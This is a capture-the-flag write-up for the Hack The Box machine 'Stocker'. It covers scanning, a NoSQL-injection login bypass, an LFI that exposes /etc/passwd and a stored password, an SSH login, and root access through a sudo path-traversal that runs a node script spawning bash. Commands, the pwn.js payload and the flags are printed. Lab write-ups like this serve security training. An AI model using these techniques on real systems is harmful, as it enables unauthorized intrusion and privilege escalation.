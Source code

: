 ```yaml
---
layout: single
title: Stocker - Hack The Box
excerpt: "Stocker is a quick and fun easy box where're goint to exploit a no sql inyection also we're goint to use burpsuite to intercept the request and change the content-type to json then there will be an lfi to obtain credentials when we gain access to the login of a subdomain found we can connect with ssh and to become root we will only have to create a .js file."
date: 2023-01-15
classes: wide
header:
  teaser: /assets/images/htb-writeup-stocker/logo.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - LFI
  - NoSqli
---
```

![](/assets/images/htb-writeup-stocker/logo.jpg)

Stocker is a quick and fun linux easy box where're goint to exploit a no sql inyection also we're goint to use burpsuite to intercept the request and change the content-type to json then there will be an lfi to obtain credentials when we gain access to the login of a subdomain found we can connect with ssh and to become root we will only have to create a .js file.

## Port Scan

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-15 11:24 CST
Nmap scan report for 10.129.131.145
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see a new subdomain of the machine stocker.htb add to your `/etc/hosts`

```
❯ /usr/bin/cat /etc/hosts | tail -n 1
10.129.131.145 stocker.htb 
```

It's working

```
❯ ping -c 1 stocker.htb
PING stocker.htb (10.129.131.145) 56(84) bytes of data.
64 bytes from stocker.htb (10.129.131.145): icmp_seq=1 ttl=63 time=180 ms

--- stocker.htb ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 179.919/179.919/179.919/0.000 ms
```

These services are running

```
❯ whatweb http://stocker.htb
http://stocker.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.131.145], Meta-Author[Holger Koenemann], MetaGenerator[Eleventy v2.0.0], Script, Title[Stock - Coming Soon!], nginx[1.18.0]
```

This is the webpage

![/assets/images/htb-writeup-stocker/web1.png](/assets/images/htb-writeup-stocker/web1.png)

We can do fuzzing to discover other subdomains

```
❯ gobuster vhost -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 30 -u stocker.htb
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://stocker.htb
[+] Method:       GET
[+] Threads:      30
[+] Wordlist:     /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/01/15 11:32:20 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb (Status: 302) [Size: 28]
```

Add to your `/etc/hosts`

```
❯ /usr/bin/cat /etc/hosts | tail -n 1
10.129.131.145 stocker.htb dev.stocker.htb
```

It's working too

```
❯ ping -c 1 dev.stocker.htb
PING stocker.htb (10.129.131.145) 56(84) bytes of data.
64 bytes from stocker.htb (10.129.131.145): icmp_seq=1 ttl=63 time=175 ms

--- stocker.htb ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 174.753/174.753/174.753/0.000 ms
```

We found a login

```
❯ curl http://dev.stocker.htb
Found. Redirecting to /login
```

```
❯ whatweb http://dev.stocker.htb/login
http://dev.stocker.htb/login [200 OK] Bootstrap, Cookies[connect.sid], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[connect.sid], IP[10.129.131.145], Meta-Author[Mark Otto, Jacob Thornton, and Bootstrap contributors], MetaGenerator[Hugo 0.84.0], PasswordField[password], Script, Title[Stockers Sign-in], X-Powered-By[Express], nginx[1.18.0]
```

This is the webpage

![/assets/images/htb-writeup-stocker/web2.png](/assets/images/htb-writeup-stocker/web2.png)

if we look for default credentials of the services it runs they don't work

We're going to use burpsuite to intercept the login panel

![/assets/images/htb-writeup-stocker/burp.png](/assets/images/htb-writeup-stocker/burp.png)

I remember the login panel of Shoppy machine is vulnerable a sqli maybe this too because they have similarities

Ok after trying we can change the Content-Type to Json and do a no sql injection

- [https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

![/assets/images/htb-writeup-stocker/xd.png](/assets/images/htb-writeup-stocker/xd.png)

After to click on forward we can see a store

![/assets/images/htb-writeup-stocker/car.png](/assets/images/htb-writeup-stocker/car.png)

I going to add something to the Cart

![/assets/images/htb-writeup-stocker/xdd.png](/assets/images/htb-writeup-stocker/xdd.png)

If you click on Submit Purchase we have a link and a order id

![/assets/images/htb-writeup-stocker/id.png](/assets/images/htb-writeup-stocker/id.png)

The link to this way 

![/assets/images/htb-writeup-stocker/link.png](/assets/images/htb-writeup-stocker/link.png)

We can intercept the Submit Purchase with burpsuite

![/assets/images/htb-writeup-stocker/xdd.png](/assets/images/htb-writeup-stocker/xdd.png)

We see a json we can abuse of this to make a LFI

![/assets/images/htb-writeup-stocker/json.png](/assets/images/htb-writeup-stocker/json.png)

We can see a new order id the machine is taking it like a purchase

![/assets/images/htb-writeup-stocker/orderid.png](/assets/images/htb-writeup-stocker/orderid.png)

If we copy the id we can see the `/etc/passwd` of the machine and users 

![/assets/images/htb-writeup-stocker/lfi.png](/assets/images/htb-writeup-stocker/lfi.png)

We have a lfi and the page use js maybe we can see configuration files with credentials of the user `angoose`

![/assets/images/htb-writeup-stocker/cred.png](/assets/images/htb-writeup-stocker/cred.png)

If we do the same copy the id and search in the webpage we found credentials 

![/assets/images/htb-writeup-stocker/gg.png](/assets/images/htb-writeup-stocker/gg.png)

`IHeardPassphrasesArePrettySecure`

We can try to connect with ssh

```
❯ ssh angoose@10.129.131.145
The authenticity of host '10.129.131.145 (10.129.131.145)' can't be established.
ECDSA key fingerprint is SHA256:DX/9+PB1w20dghcXwm9QPFH88qM0aiPr+RyA+wzHnng.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.131.145' (ECDSA) to the list of known hosts.
angoose@10.129.131.145's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

angoose@stocker:~$
```

## User flag

```
angoose@stocker:~$ cat user.txt 
d12a44162b3b7fe2ef2c2e0830d8568a
angoose@stocker:~$ id
uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
angoose@stocker:~$ hostname
stocker
angoose@stocker:~$
```

## Root

After enumerating we have a password so at sudoers level we can run a js with node as root user

```
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
angoose@stocker:~$ 
```

```
angoose@stocker:~$ cat pwn.js 
const fs = require("child_process").spawn("/usr/bin/bash", {stdio: [0, 1, 2]})
angoose@stocker:~$ 
```

```
angoose@stocker:~$ sudo node /usr/local/scripts/../../../home/angoose/pwn.js
root@stocker:/home/angoose# cd 
root@stocker:~# whoami
root
root@stocker:~# id
uid=0(root) gid=0(root) groups=0(root)
root@stocker:~# cat /root/root.txt
21ecb34b50ca39544323e071cefd0976
root@stocker:~# hostname
stocker
root@stocker:~# 
```






